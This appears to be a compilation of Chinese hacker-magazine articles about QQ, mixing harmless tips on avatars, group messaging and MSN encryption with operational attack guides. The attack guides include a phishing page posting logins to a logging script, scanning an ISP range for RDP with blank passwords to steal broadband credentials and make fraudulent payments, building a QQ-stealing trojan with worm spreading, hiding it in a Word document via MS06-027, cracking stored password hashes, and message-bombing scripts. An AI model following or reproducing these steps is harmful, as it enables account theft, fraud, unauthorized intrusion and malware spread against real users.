以上内容修改好之后，我们要让在这个页面中用户输入的账号和密码能成功记录到数据库。下一步我们来修改代码，使主页和pet_qq_action.asp页面能够连接起来。找到主页中的`<form method="POST" action="___WEBBOT_SELF___">`这串代码，然后用以下代码替换：

```html
<FORM
 onkeypress="if (event.keyCode==13 && preprocess(form1)) form1.submit();"
 name=form1 onSubmit="return preprocess(form1);"
 action=pet.qq.action.asp method=post target=_self>
 <INPUT type=hidden value=http://client.pet.qq.com/act/summer/index.shtml name=ui>
 <INPUT type=hidden value=loginerroalert name=fp>
 <TBODY>
```

再经过加工，大家也完全可以再对网站加以编辑。加入表格，编排一下文本框和登录按钮的位置，仿照官网加入原有的图片和文字等，加以美化，完全可以做得以假乱真，和官方网站相差很远。关键还是看你的网页编辑技术够不够炉火纯青啦！大家还等什么呢，赶快去试试吧。

好，保存，大功告成。大家注意给“QQ三国测资格 QQ会员一箭触发.htm”改名的时候会出现一个提示，如图6，大家不要管它，点“是”就行了。上传时请大家注意一定要把数据库、asp页面放在和钓鱼主页的同一目录下，最后连同素材一起上传到你的空间就行了。上传成功后你自己应该先去试验下，看看能不能记录账号和密码，经过多次试验成功后就可以发给其他人啦。如果不行自己再继续调整，仔细核对过程，仔细检查就行了，如图7。

#### 四、总结

其实这种盗号的方法很容易识别，只要你仔细核对一下域名，发现它不是官网地址就说明它一定是假的。但是现在很多菜鸟都缺乏建站基础，对这些不了解，导致他们屡屡被骗。今天教大家网络钓鱼盗QQ，主要希望大家都能保护好自己的账号，俗话说“姜太公钓鱼，愿者上钩”，看了这篇文章我想大家不会再上钩了吧。大家记住：对于不明文件一定不要乱接收，不乱登录非法网站，不轻易说出自己的密码。不论是什么游戏，最重要的是一定要设置密码保护，牢记密码保护内容；希望大家都能开开心心上QQ，开开心心玩游戏！

> （本文所涉及到的钓鱼程序已收录到光盘中）

## 菜鸟的QQ必小悟

黑枫无泪（我要小智）

### 一、过期的QQ

倘若我们使用的电脑是公用的，但我却又不想别人登录我的QQ，或者你想整蛊别人，不让对方登录QQ。我教大家一个非常简单的办法：只要把系统时间改成2038年以后的日期就可以，如图1。

改了时间可能会有一些程序无法使用，因为时间太长了，现在才是2006年，但没关系。现在别人如果登录QQ的话，就会发现卡得要死，然后就会出错重启，如图2。重新再登录QQ时，也卡得要死，只要打开一个聊天窗口的话，也会出现如图2所示的出错提示，这样就不能再玩QQ了。不过刚改时没多大反应，过几分钟后才会出错。

### 二、QQ秀炼金

关于QQ秀的文章我以前也写过一篇，是利用QQ漏洞让自己的Q秀永远不过期，不过那个漏洞已经被修补了。这次我要实现的是将闲置赠送的Q秀或垃圾Q秀经过改装后送给别人，当然也可以给自己穿，随便你了。具体要怎么做才行呢？首先进入QQ秀专区，点“推荐”下面的“QQ秀炼金”，如图3。点击QQ秀炼金进入“改装”页面，如图4。

页面会自动载入你拥有的QQ秀，现在我们开始炼金吧，你可以放入多件也可以放一件，如图5。

点击“下一步 加入许愿金丹”，然后就是一直点“下一步”，最后完成并开始炼了。图6是刚才那件衣服炼出来的东西。如果你觉得这个不好看，还可以点“继续炼金”，一直炼到自己满意为止。

如果运气好的话，还可以得到红钻许愿丹，这样就可以免费体验红钻了。现在经过炼金，价格提高了很多，衣服也好看了。虽然是女士饰品，但可以送给MM哄她高兴，如图7。

#### 三、解绑手机

接下来要介绍给大家的是查看QQ的绑定手机号码并解绑。首先打开QQ，然后随便选个好友查看资料，如图8。看到资料中的“关注我”，点击后进入图9所示界面，再按“下一步”即可进入解绑流程。

“菜单”→“无线QQ”→“无线QQ向导”，打开移动QQ设置窗口（图10），看到右下方“我要绑定了吗”，点击后出现图11界面。选择一项后点“下一步”，如图12，输入手机号、QQ密码和验证码即可解除手机绑定。

其实还有另一种查看该QQ绑定手机号的方法：进入TM查看自己的资料，就可以看到该QQ的手机号码明文显示出来了，如图13。

### 四、打造永不关闭的QQ

再教菜鸟们一招，如何将QQ上的关闭按钮变为最小化，让QQ不被关掉。这样不会因为误点关闭而退出，也能避免别人通过关闭按钮直接关掉你的QQ。

来到QQ安装目录，目标文件在NewSkins目录里（图14）。有三个文件夹，都有一个“VBScript.vbs”脚本文件，需要分别修改。

用记事本打开“VBScript.vbs”，查找“Sub CloseButton”，找到`Window.ExeCommand`后把数字“3”改为“2”，保存。三个文件夹里的脚本都按此方法修改，重新登录QQ后点击关闭按钮就会最小化到托盘。

```vb
Sub CloseButton_onClick()
    Window.ExeCommand 1,3
End Sub
```

## QQ中的另类群发

侯金星

#### 一、群发消息

对你的QQ好友群发消息我们需要借助QQ直播。如果没有的话可以去下载，它也是一个非常不错的网络电视，如图1。使用社区模式登录QQ直播，随便打开一个频道登录进去。在聊天室名称下面会有一个“邀请QQ好友”按钮，我们就是利用它来实现群发（图2），点击后会出现如图3所示的界面。

看到了吧，上边就是你需要群发的人员，可以全选也可以挑着选。下面的是“推荐语”，我们的主要目的不是推荐影片，所以在这里要输入的就是我们要群发的内容，内容规定是在100个字符以内，效果如图4所示。我们不必理会上边的邀请，反正下面就是群发内容，目的达到了。

#### 二、群发贺卡

群发贺卡的方法其实很简单，因为这是QQ本身带有的功能。当然了，发送贺卡的前提是你必须是会员。如果你想给QQ上的一组人发贺卡，那么就在组的名字上点击右键，就会出现一些功能提示，如图5。

点击“给该组好友发送贺卡”，如果你的好友超过40人，它会分次进行发送。如果你想给QQ群里的人群发贺卡，就在群上点右键，选择“给该群好友发送会员贺卡”，以后就是和平时发贺卡一样了。选择好你要发送的贺卡，在收件人和QQ号码上你会发现收件人的名字和收件人号码都用符号隔开了。最后点击发送就OK了，等着你的好友感谢你的贺卡吧！

#### 三、群发邮件

我们登录QQ邮箱，点击写信，在类型中选择“QQ群邮件”。然后你会发现在右边出现一个群列表，这里面显示的就是你全部的QQ群，如图6。

选择要群发邮件的群，收件人就变成了群名字。在下面打上主题和内容，也可以放上附件，其他都和平时发邮件一样。内容写好后就可以点击发送了，整个群里的人就都能收到你发送的信息了。

## 盗不走的糖糖

旭方（高春雷）

前几天我的一个好友向我诉苦，说他的QQ号被盗了，最后多亏使用密码保护功能给取了回来，但里面的资料却被改得面目全非，好友也被删除了一部分，真是可恨啊！想必许多读者朋友也曾有过类似的经历吧！而且如今的QQ盗号程序也是越出越恐怖；我就以“阿虎QQ大盗”说明中的一段话为例：“可以完美破解QQ2006键盘保护，密码框不会出现叉叉，所有版本QQ通杀。”怎么样？听上去很恐怖吧！不过今天为大家推荐的“糖糖QQ防盗登录器”这款工具，它会直接将QQ账号以HASH加密（不可逆的哦！）方式传给QQ，免去了输入密码的过程，使所有的盗号器无机可乘，彻底解决了QQ安全问题！

首先运行“糖糖QQ防盗登录器”，然后程序中“QQ程序路径”处便会显示出系统中QQ程序的安装路径信息，同时大家也可以将QQ主程序的图标或者快捷方式的图标拖拽到它的上面，也可以显示出QQ程序的安装路径信息，如图1。

点击下面的“添加”按钮，在“QQ号码”和“QQ密码”处填入你的QQ号码和密码，如果你想隐身登录的话，选中下面的“隐身登录”即可，之后点“添加”，如图2。

我们的QQ号码就显示在了程序中，如图3。通过双击程序中QQ号码命名的QQ图标，或者单击其中的QQ号码图标，然后点击左面的“启动”按钮来进入我们的QQ！与此同时，该程序也为大家提供了一个比较人性化的功能，就是可以通过定义热键来登录QQ号！方法是点击程序左面的“快捷方式”图标，然后就可以在其中定义热键信息，如图4。程序会在桌面上生成一个以我们的QQ号码命名的快捷方式图标，以后就可以根据事先定义的热键来登录QQ了，是不是很方便呀！

（本文所涉及到的糖糖QQ防盗登录器已收录到本期光盘中）


## QQ秀居然也可以免费拿

胜利之鹰

这天，在QQ秀的网站上看到很多好看的QQ秀，可惜我连1个QB也没有。现在知道为什么这么多人想弄Q币了吧，怎么为呢？记得原来在网上看到过免费领取QQ秀的活动，可是都错过了机会，没有领到。也许是我时来运转吧，我在商城里突然发现了一个叫“QQ秀着装扮靓大行动”的页面（http://qqshow.qq.com/act/2006/dress/，如图1）。

我们点击下方的“参与活动”，然后使用自己的QQ号登录（如图2），也可以在QQ秀的首页先登录自己的账号，再点击“参与活动”，就会看到如图3所示的界面。

我们来随便选择一个，我选择那个叫“爱的就是你”（如图4），哈哈成功了，价值1个Q币以上，可以免费使用半个月即15天，希望大家好运吧。不过如果你运气不好的话，则会出现第2个画面（图5），我们随便选择一个，只是送给你金币（图6），没什么实际意义，个人认为纯粹是糊弄人，这就要看你的运气了。不过得到QQ秀的几率还是蛮大的。

（小编注：其实得到的那个金币卡可以用来炼QQ秀的，详见“菜鸟的QQ四小招”一文！）


## QQ网络经典视频——一网全扫

沈杰[Breach]

这几天很是无聊，到QQ的官方网站看了下，不小心进到了腾讯宽频频道，竟然发现有很多东西可以看的哦……于是就进到了腾讯宽频—原创DV大赏（http://bb.news.qq.com/zt/2006/dvds/index.htm），里面有许多很有创意的原创DV。在线看觉得不过瘾，我就想把它们保存到自己的宝贝硬盘上，等到以后有闲情时再慢慢欣赏。通常把网上的东西保存下来，大多数都是通过查看源文件的方法找到视频的网络地址，再用flashget等下载工具；我觉得这样很麻烦，也不够方便，就使用了一个叫网络嗅探器（影音神探）的专门嗅探网上视音频文件的软件。这个软件非常好用，并且作者也很负责，经常升级它的软件，并且升级是自动的（一启动这个软件，就自动检测最新版本，我们也可以自己手动升级！），官方网址是http://www.77921.com/，上面有最新的版本可以下载，我现在使用的这个版本已经是V4.68了。

马上开始我们的一网全扫吧。随便点击一个页面，比如这个——视频：韩国学生机器舞不像地球人（很不错的机器舞哦，极力推荐^^）。视频的网络地址是http://bb.news.qq.com/a/20060626/000053.htm。点击影音神探的“开始嗅探”按钮，这个小宝贝就马上为我们服务了，它会自动把需要下载的视频文件用红色显示出来，这样节省了像我这样的懒虫找视频文件地址的时间，不错吧，如图1。

双击红色视频文件就可以自动调用默认的下载工具来下载我们需要的视频文件了，也可以右击红色视频文件选择我们需要用到的下载工具。

腾讯网站其实也对视频文件做过了一些保护措施，不过使用的都是一些小儿科的技巧，使用的是微软提供的一个网页脚本加密工具JScript.Encode加的密，我就上网找了一个解密网页，稍微编辑下送给各位，只要把它加密的乱码粘贴到文本框，点击“Encode解密”按钮就可以得到视频的真实地址了，如图2。

网站上稍微有点技术含量的就是把视频文件编辑成flash视频文件，这样我们用现有的realone、Windows Media Player等播放软件看不了flash视频文件的，但是这个也是难不倒我的。先用影音神探把flash视频文件（后缀名为.flv的文件）下载下来，如图3。

接着在我已经编辑好的flash.html文件里的“`<param name="movie" value="qq_v2.swf?url=rjfj.flv">`”语句上把rjfj.flv改成你刚才下载的flash视频文件名，直接运行flash.html就可以了，而出现的任何安全警告你都可以不理会，都点“是”就可以了（这个是由于在本地运行一些脚本才会出现那样的安全警告）。

（本文所涉及到的JScript.Encode解密网页和文中提到的flash.htm已收录到光盘中）

```html
<param name="movie" value="qq_v2.swf?url=rjfj.flv">
```


## QQ会员、三钻免费大派送

江湖一剑飘

这几天，我QQ上的网友老是拿自己的钻石会员向我炫耀，看着自己QQ上光秃秃的小企鹅，心里很不是滋味。不就是几个破钻石一个会员吗，看我亲自动手，也刷几个玩玩。

#### 一、行动前的踩点

因为我是网通用户，所以就从网通下手吧。我登录 http://cnc.qq.com 大致看了一下，在网通的平台上，有北京、河北、山东、河南、黑龙江、辽宁等地的网通用户可以利用。但是，河北、河南、黑龙江的网通平台正在升级，而北京的宽带支付业务需要使用电话号码的后4位，所以有些麻烦。辽宁的我没有试验过。我是山东网通的用户，所以我决定对山东网通下手。

#### 二、制定计划

目标确定好了，下一步就要制定计划了。我发现要想使用山东网通来进行宽带支付（就是我们今天的主题——刷QQ），需要满足以下几个条件：

- 1. 山东网通宽带用户（即宽带PPPoE拨号用户）、宽带中国会员卡用户、宽带中国注册用户均可直接消费宽带中国以及合作伙伴提供的产品、服务。
- 2. 账号开通了宽带收费业务。
- 3. 在消费时必须使用消费的ADSL登录，换句话说就是必须用消费的那个ADSL账号作为宽带连接账号来登录。

要想满足上面几个条件，真的是挺麻烦的，突然眼前一亮，对，我们可以使用3389！首先，列出我们要用到的工具——3389登录器（也就是系统自带的远程桌面连接）、Ssport（一个端口扫描工具）、Dialupass（用来察看宽带账号密码的工具），我们先把这个工具传到自己的空间上去。

#### 三、开始行动

- 1. 扫描

使用Ssport扫描开放3389端口的电脑。我发现在山东网通的用户中，潍坊网通的ADSL用户开通宽带支付业务的比较多，所以我们就用潍坊网通的用户来刷。

首先填入IP段60.210.0.0 - 60.210.255.255，这个就是山东潍坊的IP段，别的地方的也可以，但是开通宽带代收费业务的没有潍坊的多（图1），然后在端口设置里添加3389（图2），开始扫描（图3、图4）。

有的Ssport一扫描就自动关闭，这是因为防火墙的原因，将防火墙关闭后就可以了。有的Ssport没有扫描结果，可能是因为用户处在内网或类似网吧的环境中受到限制，所以没有扫描结果。经测试，好像WinXP SP2的用户没法正常使用Ssport，需要使用破解线程补丁才行。另外，开放3389的电脑不是整天在线，建议随时扫描随时使用。

##### 2. 登录

扫描结果出来了，我们使用3389登录连接一下，输入用户名和密码。我们用用户名NEW、密码空来尝试登录，基本上成功的几率是百分之七十（图5）。

使用用户名NEW、密码空进行登录，倘若提示用户名密码错误的话，可以再尝试使用Administrator、密码空进行登录，如果还是不行，那就建议换个目标。使用new用户登录的方法对于Win2000/2003系统无效。

我终于进去了，好像当前没有人在使用电脑，呵呵，这个世界是我的了，快把下载软件传到空间的dialupass.exe运行，来察看他的宽带账号密码（图6）。如果我和你使用new用户登录进去，而对方电脑当前没有人操作的话，我们就爽了，可以随心所欲地操作对方的电脑。而倘若登录时，对方正好在线，并且也是使用new用户的话，那么，当我们成功登录进去，对方就会掉线，失去对电脑的控制；而如果对方重新注销登录的话，我们则有可能会掉线。因此，当对方有人的时候，我们要小心了，实在不行就换个目标吧。为了避免这种情况的发生，我们最好把时间选在午饭和晚饭甚至是深夜，这时目标机器的主人多在吃饭或是在挂机睡觉，所以此时计算机前没有人看管的几率很大。

## QQ宝典

在下载 **dialupass.exe** 的时候别忘了将对方的杀毒软件关闭，否则下载下来的dialupass可能会被杀毒软件删除。部分目标机器运行后不显示宽带账号和密码，可能是网吧用户或未使用系统自带拨号连接的用户。

得到对方宽带密码后，登录宽带中国，输入用户名和密码。文中给出一个登录地址并说明可直接进入宽带服务；首次使用宽带支付业务的用户需要先开通。

输入QQ号、QQ密码及验证码，选择要开通的业务并点击开通；再输入通过dialupass得到的宽带账号密码登录，选择自动续订并确认。

##### 3. 消费支付

通过前述步骤可判断账号是否能进行宽带支付，相关内容包含“定向运营专区”等页面。

如果目标机器未开通宽带代收费业务，可通过其他方式处理。随后给出登录 `http://cnc.qq.com/` 的操作及示例，说明还可用于其他会员/钻类业务。


## 菜鸟要盗QQ大杀器

介绍“QQ大杀器全能取Q币版”的升级版本：功能增强，不仅能盗QQ号，还增加记录Q币、游戏币、密保等功能；并讲解参数设置、邮箱选择、测试发送等注意事项。

末段提及“蠕虫功能和QQ尾巴”：可将木马压缩为RAR并利用QQ/POPO的发文功能自动发送。上线后会自动向其他好友发送木马，扩散能力很强。QQ尾巴可使中华QQ向好友发送设置好的消息内容，可以识别对方昵称。

自动弹出网页：在“弹出窗口时间间隔”中设置间隔时间，木马就可根据设定时间自动弹出你设置的网页，如果你有主页就填到上面的网址中，可以提高你的网站访问量，如图3。

文件捆绑：“大杀器”内置一个文件捆绑器，可捆绑txt文件、图片文件、exe文件等各种类型的文件。其他的锁定IE首页、添加网址到收藏夹等功能默认是没有启用的，我们可根据需要启用。

选项设置完后点“选择图标”，“大杀器”可自动提取文件的图标，然后点“生成木马”，如图4。中毒后的在线QQ约1分钟后会自动下线，再次上线后他的QQ号、密码就会自动发送到我们的信箱中，如图5。邮件中可看到QQ号、密码、QQ币等信息。对于使用网页收信的用户，“大杀器”文件夹中还携带了一个“远程连接读取器”可直接读取ASP空间的文件。

由于中了“大杀器”后QQ安全锁不会出现红叉，并且还具有自动过滤功能（已经被盗取QQ号的QQ再次登录不会下线），因此有很强的隐蔽性。


## 用WORD漏洞突破QQ安全中心

冰河洗剑

自从QQ添加了安全中心功能后，想在QQ上传送木马就很困难了，凡是EXE或其他可执行文件，QQ安全中心默认设置都会直接阻挡文件的接收（CMD格式除外）。如何在QQ上传木马，是每个菜鸟都在想方设法解决的问题。不过自从WORD爆出MS06-027远程执行代码漏洞后，就为我们利用QQ传播木马提供了一条新途径——让QQ无阻碍地替我们传播木马，任意盗号抓肉鸡！

#### 一、准备木马

首先准备好一个木马，我使用的是盗QQ木马“完美QQ大盗QB无限制0828版”。运行完美QQ大盗木马，选择收取木马的方式为“邮箱收信”或“网站收信”，最好两种方式都使用，这样比较稳定一些（图1）。使用网站收信方式时，要记得修改收信的ASP文件“qq.sap”。使用记事本打开文件，将“server.MapPath("qqnum.txt")”中的“qqnum.txt”改成其他文件名，不然辛苦盗来的号，很容易被别人“黑吃黑”。在右边的“选项”中，可以勾选要盗取的QQ信息，点击“生成木马”按钮后就可以得到一个强大的盗号木马了。

### 二、制作DOC木马

网上已经有现成的WORD漏洞利用工具了，我们使用浩天的WORD漏洞利用工具“浩天WORD 2003捆绑器”（图2）。运行WORD 2003捆绑器后，点击上面的“浏览”按钮，指定要捆绑的DOC文档，当然要选择一个正常而且有吸引力的DOC文档，比如某某软件破解说明书、游戏秘籍、某黑客网站学习资料等。然后点击下面的“浏览”按钮，指定刚才生成的盗Q木马。最后点击“生成”按钮，就可以得到一个DOC木马了。

生成的DOC木马格式没有改变，看不出来任何异状，使用KV2007测试版以及Ewido anti-spyware检查DOC木马，都提示文件安全。但是点击运行DOC文档木马时，弹出错误提示（图3），确定打开文档后，就会自动释放并运行捆绑在其中的盗Q木马，而且杀毒软件也没有提示。

> **小提示：**在一些版本的WORD中运行生成的DOC木马时，没有错误提示，可能这与WORD版本有关系吧！

### 三、传播DOC木马

将生成的DOC木马通过QQ发送给好友，可以看到在默认的安全等级下，DOC文档没有被拦截（图4）。就等着别人打开文档吧，很快就可以收到QQ号了！另外，我们也可以将DOC文档上传到FTP服务器，或者通过P2P软件共享，传播的方式很多的，而且大部分用户对于DOC文档都不会起疑心的。

（本文所涉及到的完美QQ大盗QB无限制0828版和浩天WORD 2003捆绑器已收录到光盘中）


## 循迹游戏之QQ复仇

☆流星赶月☆

一日，QQ上传来了小弟求救的声音。我还以为什么事，原来是他QQ上的一位“好友”骂他。真是岂有此理，连菜鸟都敢欺负，看我怎么教训这些不友好的家伙。从工具箱里翻出了很久没有用过的QQ2005飘叶千夫指，调好速度便开始报仇。嗯？怎么对话框一点反应也没有（读者A：都什么年代了，还用2005的，肯定不行啊）？看来这个飘叶千夫指对新版本的QQ已经没用了。我在工具箱里翻了又找了很久，终于找到一个工具——暗键游侠。暗键游侠的功能虽然比不上按键精灵的强大，但也算是相当不错了（图1）。

用它来做个突破所有版本的QQ消息轰炸机吧！点击脚本编写（图2），在“输入中文”下面的一栏中输入“你好”，再点插入：SendChinese 你好（就是循环对象），如图3。输入了消息当然要发送，再插入Enter键，类型为按键：一般都是按Ctrl+Enter或Alt+S键来发送（我们以Ctrl+Enter为例），在按键下面的方框里面按一下Ctrl键，类型为按住：KeyDown 162（图4）。

SendKey 13，最后插入脚本延时100：Sleep 100（100为毫秒），保存文件。回到主界面打开刚才保存的文件，在“热键设置”下面设置好（我一般使用1、2），循环设置选择“直到按下终止热键”，再勾上“设置完毕开始生效”（图5）。

打开QQ对话框，怎么做不用我教你了吧？还不炸死他（图6）。


## QQ宝典

你可以在刚才保存的文件里直接修改，在 `SendChinese` 后面修改消息内容（内容不要太长，最好在 20 字左右，字体越小越好，要不会变得很糟糕）；在 `Sleep` 后面修改时间（一般 100 为最佳）。这种方法对群和 TM 依然有效，如图7、图8。


仅仅是这样，感觉还不解气，我还要用文件轰炸。我要让成千上万的 rar 炸得对方根本无法再聊天。可以编写个脚本不断发送文件，可以开多个窗口，给不同人发送。

- 1. 把你要上传的文件（腾讯安全中心允许的文件类型）固定在桌面的某一地方，打开编写脚本，把鼠标放在文件上不要动，按 F7 抓取位置，再插入 `Move x x`。
- 2. 在下面方框选左键按下，插入 `LeftDown`。
- 3. 再把 QQ 对话框固定在一个位置，抓取其坐标，插入 `Move x x`。
- 4. 和步骤2一样，不过方框所选的是左键弹起，插入 `LeftUp`。
- 5. 延时为 1000，插入 `Sleep 1000`，保存。


测试一下，成功（图10）！同时缺陷也出来：如果把延时改为 100 或更低，多个 rar 将被打开。到时对方还没卡，自己却卡住。还得找个打开时没反应或没弹出窗口的方式。


如果对方隐身了怎么办呢（图12）？这个也好解决，加个 N 键就行。把延时设为 50-200 范围，太快会卡死，太慢提示框会变灰色。好啦，就实践到此，按键游侠还可以帮我们做很多有趣的事情。

## 让QQ头像出自某导之手

大家在 QQ 上混了这么多年，想必都混出了太阳或者会员了吧！那么，想不想换个充满个性的 QQ 头像呢？下面我就把本人的几个小经验告诉大家，希望大家都能拥有个性的 QQ 头像。

#### 一、订做个人头像

想让自己的名字出现在你的头像上面，让别人一眼就能看到你是谁吗？我们可以做一个印章当头像，在里面刻上我们的大名。需要用到一个制作印章的网页：http://home.kele8.com/smallgame/signetImg/default.aspx，如图1。

使用起来非常简单。首先在“印章文字”处填写我们的名字（必须输入四个汉字）；“印章色彩”可自由选择；还可以选择文字色彩和背景色彩。在“印章样式”中有多种常用样式。选择好后点击“生成”，新页面就会出现我们生成的个性印章（如图2）。

接下来我们就可以在这个印章上点击鼠标右键，使用“图片另存为”保存图片，然后再上传这张图片作为 QQ 头像即可。


### 二、另类QQ头像

为了显示自己的个性，有人干脆直接用纯黑色或者纯白色的图片来做头像。就是新建一个 40×40 的图像，把里面全部填充为黑色、白色或者其它颜色，然后保存图片再上传。

这样的头像现在看来也说不上另类，已经很平常了。下面我教大家制作几种更加另类的头像。我们知道，有许多人使用手机或者 TM 登录 QQ 的时候，他们的头像都变为了指定的头像。我们在这里动动手脚不就行了吗？


我们截取他们的固定头像来当作自己平时的头像，来迷惑其他人误以为我们是使用了手机或者 TM 登录的 QQ。怎么做，够个性了吧！直接使用 QQ 自带的截图功能就可以。我选择了一个使用手机登录的头像，由于我使用的是小头像，所以先把该头像换为大头像之后，选取头像的图片范围截取下来。

上传之后，我们来看看头像的效果，如图3。大体一看，还真像是使用手机登录的呢。当打开聊天窗口时，却会发现聊天窗口却是和平时一样的普通聊天窗口。如果使用这个头像再选择离开状态，效果会更加出众。

- 1. 把自己好友正在“离开状态”时候的图片截取下来，然后作为自己的头像，看上去好像你也是离开状态，但却排在其他正常状态的好友前面，如图4。
- 2. 把自己平时好友的离线状态的头像，或者登录 TM 后下线的好友离线状态的头像截取下来，然后作为自己的头像，这样别人看到的明明是一张黑白的离线头像，却会显示在在线的好友里面，如图5。
- 3. 把你的“对其可见”设置里面的好友头像截取下来，当你的那些潜水好友一看到你的头像，肯定是异常惊奇，自己明明没有对你设置对其可见，在 QQ 上显示的却是对其可见的状态。
- 4. QQ 会员有个自动变换头像的功能，他们的头像能用来显示日期。有许多人就爱看 QQ 头像上的星期几来确定日期。我们虽然不是会员，却照样可以用这样的图片。比如我们截取一个星期二的头像，那么我们的头像不管星期几显示的都是星期二，这样来骗一骗其他的人吧。


#### 三、情侣头像走时尚

前一段时间流行 QQ 情侣套装，情侣合影，有的连个性签名都换成情侣的。当然在头像方面情侣们也不能示弱。如果双方都能自定义头像的话，不妨也来尝试一下，让别人为你们的幸福羡慕去吧！我为大家准备了许多情侣头像和“心”字头像，如图6。

#### 四、卡通头像自己做

如果你不想像上边讲的那样搞另类，就是想完完全全地用一个简单的头像来展现出自己的形象，但是在网上却又找不到适合自己个性的头像。那么干脆我们直接自己亲自动手打造一个个性的卡通头像。只需用到一个“卡通头像制造机”就可以了。我们先来看看这款软件，界面如图7所示。


可以根据自己的长相特点，依靠这款软件为自己设计一幅卡通头像。这款软件的“卡通头像配件”非常齐全，提供了各式各样的下巴、眼型、眉毛、前头发等。有了这些配件，我们就能轻轻松松地为自己组合出一张卡通头像了。选择好要设计的配件，在“卡通头像配件”下面会有向左向右的两个按钮，点击可以任意来选择样式。

下面的“调整位置”可以改变配件的位置，左右上下随便你来摆设，下面的星号是可以恢复到初位置。在下面还可以自定义调整彩色、亮度和对比，右边是对应的具体值，可以随意来改一下看看效果。因为我们要做的是 QQ 头像，所以保存的尺寸选择 48×48 就可以了。最后，当然是快点上传你做好的卡通头像给你的好友看看了呀！

## QQ登录，“糖糖”御真”的破局“密码”

雷玉超


在第9期的黑客X档案中曾经有篇文章介绍了糖糖QQ防盗登录器。原文中说糖糖使用的是 HASH 加密，是不可逆转的。其实这话只说对了一半。QQ密码的加密方式是将用户的密码加密为 md5 值，再将这个 md5 值转换。不可逆的只是 md5 值，而 Hash 值是可以转换的。使用类似的软件登录QQ后，用 Longhorn 任务管理器查看的话就可以找到 Hash 值（图1）。

要是既没有 LonghornPro 任务管理器，也找不到 QQLOGIN.DAT 这种记录 qqpwdhash 值的文件，我们就没有办法了吗？回答是否定的。既然 LonghornPro 任务管理器能查看到用 hash 方式登录QQ的命令行，那么我们也能编程实现。如图6，使用我编写的这个小工具就可以非常轻松地将使用 hash 方式登录的密码提取出来。


图1中“4QrcOUm6Wau+VuBX8g+IPg==”就是QQ密码加密后的 hash 值，我使用自己写的一个小程序很快地就将 hash 值转换回了 md5 值（图2、图3）。再将得到的 MD5 值放到在线破解网站（http://www.cmd5.com）上破解就可以了（图4）。


倘若没有 LonghornPro 任务管理器怎么查看 hash 值呢？其实糖糖已经给我们准备好了，使用记事本方式打开 QQLOGIN.DAT，就可以看到用来登录的QQ号码和密码 hash 值。号码前的那位数字表示是隐身方式还是普通方式，“|”后面的就是 hash 值（图5）。


现在的盗QQ木马层出不穷，令人防不胜防，腾讯推出了键盘加密，却是个绣花枕头。使用 hash 方式登录，貌似安全，可一旦截得到了密码的 hash 值，也就等于得到了 md5 值，就可以无限制地进行暴力破解了。

> （本文所涉及到的 Longhorn 任务管理器、QQ hash 值转化器和 QQ hash 值提取器等已收录到光盘中）

【X档调查】想不到一个貌似安全的糖糖却引发了这么严重的安全问题。在成功地防范了各种盗号木马的同时，却也又被呼呼的软件把人的QQ忽略告诉了别人。看来，网络上的东西真的不能轻易相信，想要好好地保护自己的爱机不受伤害吗？那就每月都来关注黑客X档案吧！

## MSN聊天加密双子星

石头


前些日子，关于在局域网里嗅探MSN聊天记录的文章在网上闹得沸沸扬扬，以至于使用MSN的网友人人自危。要知道MSN传输消息使用的是纯 ASCII 码，因此嗅探工具才可以很轻易地获取聊天记录。俗话说得好，有矛就有盾，虽然如何防止MSN被嗅探对于大多数菜鸟来说有难度，但是我们却可以给MSN传送的消息进行加密，这样即使聊天记录被嗅探到，也不会查看出真正的内容。本文我就将介绍两种加密方式：MSN自身加密和 MSNShell。

### 一、MSN悄悄话加密

微软在推出MSN时就已经考虑到了聊天泄密的问题，内置了加密聊天的功能——悄悄话。打开MSN的聊天窗口，点击“查看活动列表”，选择“悄悄话（加密）”，如图1，在窗口的右边就会打开一个加密聊天窗口（图2）。在这里和欠钱聊天试试，果然不会被嗅探到了（图3）。


## QQ宝典


如果我们勾选“防偷窥背景”的话，就会在聊天窗口中加上一层与文字颜色相差不大的背景，这样即使站在你后面的人也很难看清你的聊天记录，不过自己看着也费劲了，呵呵（如图4）。

### 二、MSNShell聊天加密


MSNShell是著名的MSN插件，可以实现登录多个MSN账号、自定义标签栏等许多实用功能，使用的人数非常多。使用MSNShell聊天加密功能，必须要求双方都安装MSNShell，只有自己安装是不行的。

安装好MSNShell后启动MSN，你会发现菜单栏中多了一个名为“Shell”的MSNShell菜单。选择“设置”，找到并启用“聊天加密”（图5），对方也启动加密后，在进行聊天时就会有提示：“以下会话已被加密了”（图6）。

目前网上大部分的MSN聊天加密软件都需要双方安装，比如 simplite-msn 等。有一款 SafeMSN 的软件只需要单方安装就可以实现聊天、传送文件加密，但却需要花钱注册（让贪夸欠钱找人去破解了）。如果为了加密而专门安装加密软件，实在是多此一举，使用悄悄话功能和 MSNShell 就是个不错的选择。

## QQ表情之魔法表情大对碰


坐在我对面的同事老是用QQ给我发一张他“女朋友”（其实是一个网友）的照片过来，以此来炫耀自己的“帅”，连续发了好多次了，真是烦死人了。本想使用 shutdown 命令给他来个远程关机（他的系统是我安装的，里面有我建立的隐藏账户），可是又怕他丢失工作资料，那样要是被他知道是我做的话，影响可不好。于是我准备给他发个普通的QQ表情作为回应时，突然发现自己还是QQ会员呢，灵机一动，让我想到了一个整他的办法，那就是使用QQ的魔法表情对他进行轰炸。

首先得进行一些必要的设置，否则，没把对方弄死，自己这边却先死机了。打开与他的聊天窗口，切换到聊天模式，点击“会员魔法表情/宠物炫”图标，在弹出的魔法表情对话框中点击最上栏右边的置顶图标，使魔法表情对话框始终依附在聊天窗口的右边，便于我们连续发送魔法表情。接着点击“设置”按钮，在出现的对话框中点击“本地不播放”按钮（图1），使本地不播放魔法表情，否则的话，当你向对方发送大量的魔法表情时，自己这边会先播放，不死机也会被卡死的。


普通的QQ号也可以。我们可以多找找免费的魔法表情，将它们收藏起来，再在图1所示的“我的收藏”中进行发送；如果有多个可以轮着发，也可以对同一个表情发送多次，效果都是一样的。不过，遗憾的是免费的魔法表情现在已经很难找到了，差不多都是会员专用的，看来免费的午餐已经越来越少了……

设置好后，我就开始不停地点击窗口中的表情，每发送一个魔法表情都会出现图2所示的提示，选中下面的“一次发送成功不再显示此页面”选项，发送速度就会提升许多了。当我发送了大约20多个魔法表情后，看到对面的同事已经急得有些不知所措了。后来跑过去看了看，满桌面的魔法表情，他还不时地将它们拖向四周，但表情太多了，又是处于置顶状态，根本无法做其它事，机器也慢得像蜗牛一样。

